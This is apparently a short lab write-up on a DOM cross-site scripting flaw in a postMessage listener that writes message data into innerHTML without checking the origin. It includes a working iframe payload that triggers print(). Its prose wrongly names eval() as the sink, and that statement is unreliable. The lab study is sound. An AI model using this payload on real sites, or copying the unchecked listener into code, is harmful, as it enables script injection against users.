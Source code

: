 Consider that a web page contains addEventListener() in the source:
```
                    <script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
                    </script>
```

As the event listener does not verify the origin of the message, and the postMessage() method specifies the targetOrigin "*", the event listener accepts the payload and passes it into a sink, in this case, the eval() function.

We can exploit this by injecting the below javascript into a page, so when the user loads a page, say, in an email, and it tries to load an iframe stored on the page containing the addEventListener(), when the page is loaded it triggers print() because an "event" has occured? (the event is the page being called as an iframe)

<iframe src="https://ac5f1f471f6efd53c0331224005500d8.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
